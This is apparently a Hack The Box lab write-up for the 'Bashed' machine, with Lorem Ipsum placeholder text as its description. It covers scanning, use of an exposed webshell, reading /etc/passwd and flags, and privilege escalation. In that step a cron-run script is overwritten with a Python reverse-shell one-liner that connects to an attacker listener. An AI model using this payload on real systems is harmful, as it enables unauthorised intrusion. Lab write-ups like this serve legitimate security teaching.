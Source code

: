 ```yaml
---
title: Bashed - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-02-16
image: images/bashed_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/bashed_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. [root:/git/htb/bashed]# nmap -Pn -n -sCV 10.10.10.68                                                                              (master✱)
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Arrexel's Development Site

  DIRB:
  ==> DIRECTORY: http://10.10.10.68/css/
  ==> DIRECTORY: http://10.10.10.68/dev/
  ==> DIRECTORY: http://10.10.10.68/fonts/
  ==> DIRECTORY: http://10.10.10.68/images/
  + http://10.10.10.68/index.html (CODE:200|SIZE:7743)
  ==> DIRECTORY: http://10.10.10.68/js/
  ==> DIRECTORY: http://10.10.10.68/php/
  + http://10.10.10.68/server-status (CODE:403|SIZE:299)
  ==> DIRECTORY: http://10.10.10.68/uploads/

  NIKTO:
  + Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
  + /config.php: PHP Config file may contain database IDs and passwords.


2. Enumerating the dirb results we quickly find http://10.10.10.68/dev/phpbash.php, a responsive webshell.

    www-data@bashed:/var/www/html/dev# whoami
      www-data

    www-data@bashed:/var/www/html/dev# cat /etc/passwd
      root:x:0:0:root:/root:/bin/bash
      daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
      bin:x:2:2:bin:/bin:/usr/sbin/nologin
      sys:x:3:3:sys:/dev:/usr/sbin/nologin
      sync:x:4:65534:sync:/bin:/bin/sync
      games:x:5:60:games:/usr/games:/usr/sbin/nologin
      man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
      lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
      mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
      news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
      uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
      proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
      www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
      backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
      list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
      irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
      gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
      nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
      systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
      systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
      systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
      systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
      syslog:x:104:108::/home/syslog:/bin/false
      _apt:x:105:65534::/nonexistent:/bin/false
      messagebus:x:106:110::/var/run/dbus:/bin/false
      uuidd:x:107:111::/run/uuidd:/bin/false
      arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
      scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash

    www-data@bashed:/home/arrexel# cat user.txt
      2c281f318555dbc1b856957c7147bfc1


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Investigate if we can run anything as root.

    www-data@bashed:/home# sudo -l

      Matching Defaults entries for www-data on bashed:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

      User www-data may run the following commands on bashed:
      (scriptmanager : scriptmanager) NOPASSWD: ALL


    www-data@bashed:/# sudo -u scriptmanager ls -al /scripts
      total 16
      drwxrwxr-- 2 scriptmanager scriptmanager 4096 Dec 4 2017 .
      drwxr-xr-x 23 root root 4096 Dec 4 2017 ..
      -rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 2017 test.py
      -rw-r--r-- 1 root root 12 Feb 23 05:22 test.txt

    www-data@bashed:/# sudo -u scriptmanager cat /scripts/test.py
      f = open("test.txt", "w")
      f.write("testing 123!")
      f.close

    www-data@bashed:/# sudo -u scriptmanager cat /scripts/test.txt
      testing 123!


2. As we can see from the ls-output above, test.txt is owned by root, maybe the script test.py is ran as root by a cronjob?
   Modify the script with a python one-liner, setup a local listener and wait.

   www-data@bashed:/# sudo -u scriptmanager echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.10",4499));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > test.py
   [root:/git/htb/bashed]# nc -lvnp 4499                                                                                             (master✱)
    listening on [any] 4499 ...
    connect to [10.10.14.10] from (UNKNOWN) [10.10.10.68] 40690
    /bin/sh: 0: can't access tty; job control turned off
    # whoami
      root
    # cat /root/root.txt
      cc4f0afe3a1026d402ba10329674a8e2


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝
